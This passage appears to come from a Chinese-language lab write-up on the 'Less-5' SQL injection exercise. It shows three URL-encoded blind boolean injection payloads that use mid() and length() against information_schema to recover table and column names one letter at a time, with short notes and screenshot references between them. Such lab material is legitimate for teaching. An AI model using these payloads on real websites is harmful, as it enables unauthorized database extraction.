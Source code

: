 `http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),1,1)=%27q%27)--+`

![](assets/markdown-img-paste-20180418171046244.png)

可见第一个字母就是`e`

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),2,1)=%27m%27)--+`

![](assets/markdown-img-paste-20180418171137918.png)

第二个是`m`，同样的方法，一共6个字母

显然数据库名称，表的名称就都有了，还差列的名称

首先依然是判断一共有多少个列，然后判断每个列名是什么

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1))%3E0)--+`

![](assets/markdown-img-paste-20180418171700806.png)
